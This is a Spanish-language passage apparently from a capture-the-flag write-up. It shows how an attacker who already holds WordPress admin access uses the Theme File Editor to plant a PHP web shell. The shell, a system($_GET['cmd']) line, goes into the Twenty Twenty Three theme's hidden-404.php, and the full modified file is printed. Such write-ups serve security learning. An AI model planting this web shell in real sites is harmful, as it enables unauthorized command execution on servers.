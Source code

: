 ¡Estamos dentro de `wordpress`!, el siguiente paso sería buscar una forma de ganar acceso al sistema operativo


## Remote Code Execution - Abusing Theme Editor

Podemos aprovechar el editor de temas de Wordpress para editar archivos `php` de algún tema para ejecutar comandos a nivel de sistema. En mi caso, seleccionaré el tema `Twenty Twenty Three`, esto porque solemos contar con permisos de escritura en los temas por defecto de Wordpress, aunque podemos no tenerlos con temas personalizados, como es el caso del tema que está activado.

Nos vamos a `Appereance` > `Theme File Editor` o en `Tools > Theme File Editor` para editar los archivos de temas existentes en este Wordpress

![image-center](/assets/images/posts/norc-theme-editor.png){: .align-center}

Luego buscaremos un tema del cual podamos abusar, le daremos a `Select`, luego buscaremos un archivo en el cual irá nuestro código PHP, **es importante que podamos acceder a ese archivo con una solicitud**

![image-center](/assets/images/posts/norc-theme-editor-2.png){: .align-center}

En mi caso he seleccionado el archivo `hidden-404.php`. Insertaremos un payload que nos permita ejecución de código, más o menos como se muestra a continuación

~~~ php
<?php
/**
 * Title: Hidden 404
 * Slug: twentytwentythree/hidden-404
 * Inserter: no
 */
system($_GET['cmd']);
?>
<!-- wp:spacer {"height":"var(--wp--preset--spacing--30)"} -->
<div style="height:var(--wp--preset--spacing--30)" aria-hidden="true" class="wp-block-spacer"></div>
<!-- /wp:spacer -->

<!-- wp:heading {"level":1,"align":"wide"} -->
<h1 class="alignwide"><?php echo esc_html_x( '404', 'Error code for a webpage that is not found.', 'twentytwentythree' ); ?></h1>
<!-- /wp:heading -->

<!-- wp:group {"align":"wide","layout":{"type":"default"},"style":{"spacing":{"margin":{"top":"5px"}}}} -->
<div class="wp-block-group alignwide" style="margin-top:5px">
	<!-- wp:paragraph -->
	<p><?php echo esc_html_x( 'This page could not be found.', 'Message to convey that a webpage could not be found', 'twentytwentythree' ); ?></p>
	<!-- /wp:paragraph -->

	<!-- wp:search {"label":"<?php echo esc_html_x( 'Search', 'label', 'twentytwentythree' ); ?>","placeholder":"<?php echo esc_attr_x( 'Search...', 'placeholder for search field', 'twentytwentythree' ); ?>","showLabel":false,"width":100,"widthUnit":"%","buttonText":"<?php esc_attr_e( 'Search', 'twentytwentythree' ); ?>","buttonUseIcon":true,"align":"center"} /-->
</div>
<!-- /wp:group -->

<!-- wp:spacer {"height":"var(--wp--preset--spacing--70)"} -->
<div style="height:var(--wp--preset--spacing--70)" aria-hidden="true" class="wp-block-spacer"></div>
<!-- /wp:spacer -->
~~~
